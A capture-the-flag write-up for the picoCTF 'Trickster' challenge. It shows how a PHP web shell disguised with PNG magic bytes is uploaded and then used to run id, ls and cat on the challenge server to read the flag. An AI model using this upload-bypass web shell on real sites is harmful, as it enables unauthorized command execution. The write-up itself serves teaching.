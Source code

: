 # Trickster

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Level: Medium
Tags: Web Exploitation, picoCTF 2024, browser_webshell_solvable
Author: JUNIAS BONOU

Description:
I found a web app that can help process images: PNG images only!

Try it here!

Hints:
(None)
```
Challenge link: [https://play.picoctf.org/practice/challenge/445](https://play.picoctf.org/practice/challenge/445)

## Solution

### Basic web page analysis

Browse to the web site and you will see a web page with the message "Welcome to my PNG processing app".  
On the web page you can upload PNG files.

Right-click and select 'View page source' (or press `CTRL + U`) to get the HTML-source of the page.
```html
<!DOCTYPE html>
<html>
<head>
    <title>File Upload Page</title>
</head>
<body>
    <h1>Welcome to my PNG processing app</h1>

    
    <form method="POST" enctype="multipart/form-data">
        <input type="file" name="file" accept=".png">
        <input type="submit" value="Upload File">
    </form>
</body>
</html>
```
Not much there other than that the uploaded file needs to have a `.png` extension.

If we try to upload any PNG picture we get the message:  
`File uploaded successfully and is a valid PNG file. We shall process it and get back to you... Hopefully`

We get no indication of where the file is uploaded but normally the destination is in the `/uploads` directory.  
Let's verify this by browsing to `http://atlas.picoctf.net:53321/uploads/test_file.png`.  
Correct! Our test file is displayed.

### Upload a web shell

Next, we will try to upload a [web shell](https://en.wikipedia.org/wiki/Web_shell) disguised as a PNG-file
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Web_Exploitation/Trickster]
└─$ cat web_shell.png.php        
�PNG<?php system($_GET["cmd"]); ?>

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Web_Exploitation/Trickster]
└─$ xxd web_shell.png.php                                                                              
00000000: 8950 4e47 3c3f 7068 7020 7379 7374 656d  .PNG<?php system
00000010: 2824 5f47 4554 5b22 636d 6422 5d29 3b20  ($_GET["cmd"]); 
00000020: 3f3e 0a  
```
Note the PNG magic bytes in the beginning (`89 50 4e 47`) of the file.

Then we upload the web shell through the web page.

### Enumeration through the web shell

Now we can run simple commands through the web shell:

Accessing `http://atlas.picoctf.net:53321/uploads/web_shell.png.php?cmd=id` returns:
```
�PNGuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The web server's home directory is usually at `/var/www/html`. Let's check that directory.  
Accessing `http://atlas.picoctf.net:53321/uploads/web_shell.png.php?cmd=ls` returns (with view source on the page):
```
�PNGtotal 16
drwxrwxrwt 1 www-data www-data   21 Mar 11 23:59 .
drwxr-xr-x 1 root     root       18 Nov 21  2023 ..
-rw-r--r-- 1 root     root       49 Mar 11 23:59 GNTDOMBWGIZDE.txt
-rw-r--r-- 1 root     root     1572 Feb  7 17:25 index.php
-rw-r--r-- 1 root     root      415 Feb  7 17:25 instructions.txt
-rw-r--r-- 1 root     root       62 Feb  7 17:25 robots.txt
drwxr-xr-x 1 www-data root       31 Jul 13 08:50 uploads
```
The `GNTDOMBWGIZDE.txt` file looks very suspicious.

### Get the flag

Viewing the file by accessing `http://atlas.picoctf.net:53321/uploads/web_shell.png.php?cmd=cat%20/var/www/html/GNTDOMBWGIZDE.txt` returns the flag:
```
�PNG/* picoCTF{<REDACTED>} */
```

For additional information, please see the references below.

## References

- [xxd - Linux manual page](https://linux.die.net/man/1/xxd)
- [Wikipedia - PHP](https://en.wikipedia.org/wiki/PHP)
- [Wikipedia - PNG](https://en.wikipedia.org/wiki/PNG)
- [Wikipedia - Web shell](https://en.wikipedia.org/wiki/Web_shell)
